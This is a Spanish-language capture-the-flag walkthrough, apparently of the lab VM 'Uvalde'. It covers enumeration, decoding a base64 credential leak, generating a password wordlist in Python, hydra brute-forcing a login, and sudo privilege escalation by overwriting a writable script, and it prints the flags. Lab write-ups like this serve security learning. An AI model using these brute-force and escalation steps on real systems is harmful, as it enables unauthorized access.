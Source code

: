 # Momentum VH

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.14

Comencemos con un scaneo rapido de nmap dentro de estos encontramos 

![](img/uvalde1.png)

Ya que con el escaneo de nmap nos dice que se puede acceder anonimamente al ftp eso es lo primero que realizo

![](img/uvalde2.png)

viendo el archivo output la verdad solo se que hay un usuario Matthew.
Me confirma que es un usuario Linux y me muestra un ejemplo de los comandos que corrio antereriormente

##80 http

Continuare viendo el http la cual es una pagina completamente normal.
Lanzando la herramienta gobuster encontramos nuevos directorios

``` gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.14 -x .php,.html     
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/02/23 13:02:55 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 29604]
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.14/img/]
/login.php            (Status: 200) [Size: 1022]
/user.php             (Status: 302) [Size: 0] [--> login.php]
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.14/mail/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.14/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.14/js/]
/success.php          (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.14/vendor/]
/create_account.php   (Status: 200) [Size: 1003]
/.html                (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274] 
```

De estos los mas interesantes son el /login y /create_account.php
Lanzando un ataque de fuerza bruta mediante hydra me dice que el login es de matthew y el password 123456 sin embargo cuando intento entrar no me lo permite.

``` 
curl --url "http://10.0.2.14/create_account.php" -X POST -d "username=test1" -i -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.0.2.14:80...
* Connected to 10.0.2.14 (10.0.2.14) port 80 (#0)
> POST /create_account.php HTTP/1.1
> Host: 10.0.2.14
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 14
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Thu, 23 Feb 2023 18:18:58 GMT
Date: Thu, 23 Feb 2023 18:18:58 GMT
< Server: Apache/2.4.54 (Debian)
Server: Apache/2.4.54 (Debian)
< Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
< Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
< Content-Length: 1031
Content-Length: 1031
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

----> Aqui iba el codigo de la pagina <----

Account successfully * Connection #0 to host 10.0.2.14 left intact
created 
```

Si nos damos cuenta en el Location nos deja un texto en base64 que si lo decodeamos nos resulta lo siguiente

```
echo 'dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=' | base64 -d;echo  
username=test1&password=test12023@5464
```

Si hago este proceso me puedo dar cuenta que siempre es el mismo formato
del password nombre2023@XXXX 

Las X serian 4 numeros aleatorios
Para esto tenemos que crear nuestro diccionario asi que cree un pequeño programa con python para generar las claves.

```
user = 'matthew2023@'

with open('test.txt', 'w') as f:
        for num in range(1,10000):
                correct_num = str(num).zfill(4)
                f.write(user+correct_num+'\n')
```

Con este programa se crearon las contraseñas en un archivo llamado test.txt 
Ahora solo queda hacer fuerza bruta con hydra

```
hydra -l matthew -P test.txt 10.0.2.14 http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-23 13:56:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-post-form://10.0.2.14:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[80][http-post-form] host: 10.0.2.14   login: matthew   password: matthew2023@1554
```

Una vez logramos obtener usuario y contraseña podemos ingresar por el ssh

##22 ssh

Encontramos de primeras la primera flag

```
matthew@uvalde:~$ cat user.txt 
6e4136fbed8f8c691996dbf42697d460
```

Ahora dentro de la maquina buscamos la manera de escalar privilegios

```
matthew@uvalde:/opt$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
matthew@uvalde:/opt$ ls -ld /opt/
drwx---rwx 2 root root 4096 Feb  5 10:03 /opt/
matthew@uvalde:/opt$ mv superhack superhack.back
matthew@uvalde:/opt$ echo 'bash' > superhack
matthew@uvalde:/opt$ cd ..
matthew@uvalde:/$ sudo /bin/bash /opt/superhack
root@uvalde:/# cd /root
root@uvalde:~# ls
root.txt
root@uvalde:~# cat root.txt 
59ec54537e98a53691f33e81500f56da
```

Y asi terminamos la maquina Uvalde